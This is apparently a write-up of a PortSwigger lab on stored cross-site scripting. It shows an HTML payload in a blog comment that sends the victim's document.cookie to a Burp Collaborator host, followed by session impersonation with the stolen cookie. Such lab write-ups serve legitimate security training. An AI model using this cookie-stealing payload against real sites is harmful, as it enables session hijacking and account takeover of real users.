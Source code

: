# Lab: Exploiting cross-site scripting to steal cookies

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies>  
Difficulty: PRACTITIONER  
Python script: No script available  
The description below requires Burp Suite Professional to solve this lab!

## Known information

- Application has a XSS vulnerability in the comment feature
- A user views anything that is posted
- The lab can be solved both with and without Burp Collaborator
- Goals:
  - Exfiltrate the victims session cookie
  - Impersonate the victim

## Steps

The first thing is to find out if the application appears to perform any input validation. Can I input tags in general and script tags specifically? For this I post a comment with this content (also tried to inject a tag in the name):

```html
O<b>n</b>e, 
<script>document.write("Two, ")</script>
Three
```

It turns out that while the name is done properly, the comment text itself allows tags and includes them in an unsafe way:

![inserting_tags](img/inserting_tags.png)

So I can inject a script that generates a `<img>` tag trying to load an image from my Burp Collaborator URL:

```html
<script>
document.write('<img src="https://w52kbyrewfpqu4c1t9pvoigtdkja7z.burpcollaborator.net/?cookie=' + document.cookie + '" />')
</script>
```

![malicious_comment](img/malicious_comment.png)

After sending, I check Burp Collaborator and sure enough, the client shows a couple of requests, including a HTTP request containing the session cookie of the victim:

![cookie_information](img/cookie_information.png)

With a cookie editor I change my own cookies information to the values provided:

![modified_cookie](img/modified_cookie.png)

After reloading the page, the lab updates to

![success](img/success.png)
